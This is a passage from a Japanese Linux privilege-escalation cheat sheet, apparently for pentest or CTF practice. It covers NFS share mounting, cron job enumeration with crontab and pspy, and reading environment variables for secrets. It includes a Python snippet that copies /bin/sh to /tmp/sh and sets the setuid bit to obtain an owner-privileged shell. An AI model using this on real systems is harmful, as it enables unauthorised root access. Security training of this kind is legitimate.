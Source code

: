 ### 共有ディレクトリをマウント
```bash
mount -o rw <targetIP>:<share-location> <directory path we created>
```

### バイナリの作成と実行権限の付与
```bash
chmod +x <binary>
```

## Cron Job
Cronジョブを確認するために、以下のコマンドを使用します。

#### `/etc/crontab`ファイルの内容を表示
```bash
cat /etc/crontab
```

#### 現在のユーザーのCronジョブを表示
```bash
crontab -l
```

#### pspyツールの利用
`pspy`は、Linux上でリアルタイムに発生しているアクティビティを監視するための便利なツールです。
---
### Pythonで書かれているファイルに付与する例

以下のPythonコードを実行した後、`./sh`を実行します。

```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('cp /bin/sh /tmp/sh ')
        os.system('chmod u+s /tmp/sh ')
except:
        sys.exit()
```
このコードは、`/bin/sh`を`/tmp/sh`にコピーし、`setuid`ビットを設定することで、`/tmp/sh`を実行するときに所有者の権限で実行されるようにします。
---

## Sensitive Infomation
## 環境変数とプロセス監視による情報収集

### 1. 環境変数の確認
環境変数には、システムやユーザーに関するさまざまな情報が含まれており、セキュリティ上の脆弱性につながることがあります。以下のコマンドで環境変数を確認します。

```bash
cat .bashrc
env
```
